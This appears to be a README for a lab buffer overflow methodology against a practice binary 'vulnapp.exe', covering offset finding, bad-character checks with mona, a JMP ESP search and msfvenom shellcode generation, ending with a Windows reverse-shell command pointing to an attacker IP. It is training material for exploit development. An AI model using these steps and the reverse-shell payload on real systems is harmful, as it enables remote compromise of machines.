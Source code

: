 # Buffer Overflow methodology

Steps to be followed for the machine solution;

Note: If after each debug operation performed, the application has become unresponsive; Immunity Debugger should be closed first, then the "vulnapp.exe" application should be restarted, and Attach and Run should be done on Immunity Debugger.

## 1. Segmentation fault : 1_segfault.py

Send enough length string for victim system crash

Note the offeset in ``PARAMETERS.py``, in the variable ``offset_eip``.

## 2. Find the offset : 2_find_offset.py:

Generate the pattern (adapt the buffer lenght) :

    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <String_Length>

    buf += ("<PATTERN>")

Put the output into the variable ``buf`` in ``2_find_offset.py`` & send it.

Once the app crashes, note down the value of the EIP register (which is the address of the next operation to be executed).




If needed : convert the EIP value to ASCII : echo "<EIP_value>" | xxd -r -p

Find the offset at which the sequence is met in the pattern :

    /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <EIP_value>

Or, type this in Immunity Debugger : `!mona findmsp`.

Note the value of the EIP offet in the variable ``offset_eip`` in ``PARAMETERS.py``, and the value of the ESP offset in the variable ``offset_esp``.

## 3. Control the EIP : 3_confirm_offset.py

Execute this script as is.

In Immunity Debugger, make sure that
   - **BBBB** in the EIP (in hex, so ``42424242``)
   - **CCCCDDDDD.....** is written in what ESP points to

## 4. Find the bad chars : 4_find_badchars.py

Send it to the application

In Immunity Debugger, make mona create a list of badchars :

    !mona bytearray –cpb “\x00”

The console output will tell you where it has been saved.

Compare this file with the stack contents :

    !mona compare -a ESP -f <file_with_bad_chars>
    !mona compare -a <WHATEVER ADDRESS> -f <file_with_bad_chars>

**Note: **always use the full path to the file !

In the mona output, ``Possibly bad chars`` are output.
Put them in the ``badchars`` array in ``PARAMETERS.py``.

## 5. Confirm badchars & find a JMP ESP instruction : 5_find_jmp_esp.py

### a. Confirm badchars

Make sure the badchars identified are mentionned in the ``PARAMETERS.py`` file.

Execute the script.

Re-generate a badchar sequence on mona :

    !mona bytearray -cpb "\x00\x04\x05\xA2\xA3\xAC\xAD\xC0\xC1\xEF\xF0"

The console output will tell you where it has been saved.

Compare the ``bytearray.bin`` (**use the full filepath**) and the buffer to make sure they are the same.
That will mean that no new badchar have been detected :

    !mona compare -a ESP -f <file_with_bad_chars>
    !mona compare -a <WHATEVER ADDRESS> -f <file_with_bad_chars>

The mona output status should be ``unmodified`` and you should get a message in the
console saying : ``!!! Hooray, normal shellcode unmodified !!!``

This mean that no other badchars have been detected.

### b. Find a JMP ESP

Ask mona to find the instruction ``JMP ESP`` that will allow the processor to execute
whatever we have put in the stack.

    !mona jmp -r esp -cpb "<bad_chars>"       formatted like this : "\x00\x01"

Put the address returned in the variable ``ptr_jmp_esp`` in ``PARAMETERS.py``


## 6. Pop calc : 6_pop_calc.py

This will confirm the code execution on the target host.
This can be used to validate the build-up of the exploit, and set a working basis.

Launch this to produce the shellcode that will make calc pop on the target :

    msfvenom -p windows/exec -b '<badchars>' -f python --var-name shellcode_calc \
    CMD=calc.exe EXITFUNC=thread

Insert the output (python variable ``shellcode_calc``) in the script ``6_pop_calc.py``.

In the script, we will also move ESP up in the stack (instruction ``SUB ESP,0x10``)
This is to avoid the ESP overwrite by the encoder of the payload.
Some guys use a NOP sled, here is a more proper way ;)

Launch the script and enjoy popping calc!

## 7. Create shellcode : 7_exploit.py

Now, you can craft any other shellcode as long as you respect the badchars :

    msfvenom -p windows/shell_reverse_tcp LHOST=<Attacker_IP> LPORT=<Attacker_Port> \
    -f py -b '<badchars>' -e x86/shikata_ga_nai -var-name shellcode

Insert the output (python variable ``shellcode_calc``) in the script ``7_exploit.py``.
